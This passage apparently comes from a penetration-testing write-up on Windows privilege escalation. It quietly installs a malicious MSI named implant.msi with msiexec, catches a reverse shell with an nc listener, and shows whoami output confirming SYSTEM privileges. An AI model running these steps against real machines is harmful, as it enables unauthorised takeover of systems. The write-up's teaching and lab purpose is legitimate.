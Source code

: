 Install the MSI package quietly:

```powershell
msiexec /quiet /qn /i c:\Tools\implant.msi
```

After executing the malicious MSI, we receive a reverse shell as `NT AUTHORITY SYSTEM`:

```powershell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.119.130] from (UNKNOWN) [192.168.119.129] 58480
Microsoft Windows [Version 10.0.22000.318]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\SysWOW64>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                           Type             SID                                                            Attributes       
==================================== ================ ============================================================== ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                                    
Everyone                             Well-known group S-1-1-0                                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545                                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6                                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11                                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15                                                       Mandatory group, Enabled by default, Enabled group
NT SERVICE\msiserver                 Well-known group S-1-5-80-685333868-2237257676-1431965530-1907094206-2438021966 Enabled by default, Enabled group, Group owner
LOCAL                                Well-known group S-1-2-0                                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators               Alias            S-1-5-32-544                                                   Enabled by default, Enabled group, Group owner


PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled
SeSecurityPrivilege             Manage auditing and security log          Enabled
```